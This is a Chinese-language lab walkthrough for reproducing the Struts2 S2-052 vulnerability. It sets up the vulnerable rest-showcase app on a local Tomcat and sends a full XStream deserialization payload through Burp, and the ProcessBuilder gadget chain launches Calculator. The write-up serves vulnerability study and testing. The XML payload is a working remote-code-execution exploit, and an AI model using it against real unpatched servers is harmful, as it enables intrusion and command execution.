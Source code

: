 

# S2-052的POC测试(原名：Tomcat部署war）
原文地址：http://blog.csdn.net/caiqiiqi/article/details/77861477

快照：https://urlscan.io/screenshots/a1d00309-2b07-47ef-8256-5e8d4faa1dd1.png
![](https://urlscan.io/screenshots/a1d00309-2b07-47ef-8256-5e8d4faa1dd1.png)

从struts2的官网下载最后受影响的版本struts-2.5.12，地址：
http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip
注意下载struts-2.5.12-apps即可，不需要下载struts-2.5.12-all.zip。不然struts-2.5.12-all.zip中包含很多其他的东西，可以看到lib目录下有很多jar包。
![](/image/1.png)
拿到struts-2.5.12-apps之后，将其中的app目录下的struts2-rest-showcase.war文件放到webapps目录下，我的是

/Library/Tomcat-8.5.15/webapps然后设置一下conf/server.xml文件即可。
![](/image/2.png)

这里把appBase设置为webapps目录，然后unpackWARs设置为true，这样就会自动解包xxx.war，autoDeploy也设置为true(热部署?)
然后就可以浏览器访问了。
直接输入
http://127.0.0.1:8080/struts2-rest-showcase/
会跳转，然后出现下面的页面，点击其中一个编辑，
![](/image/3.png)

然后将请求发送到burp，(我由于在FireFox上有代理插件，于是换到FireFox上了)点击”Edit”按钮，然后拦截请求，将请求中的Content-Type的值改为
application/xml,然后POST的数据用PoC中的xml内容代替。

晴天师傅的PoC

```bash
POST /struts2-rest-showcase/orders/3;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 1663
Referer: http://127.0.0.1:8080/struts2-rest-showcase/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1

<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map> 
```


成功弹出计算器

![](/image/4.png)


然后可以看到页面一堆报错的

![](/image/5.png)
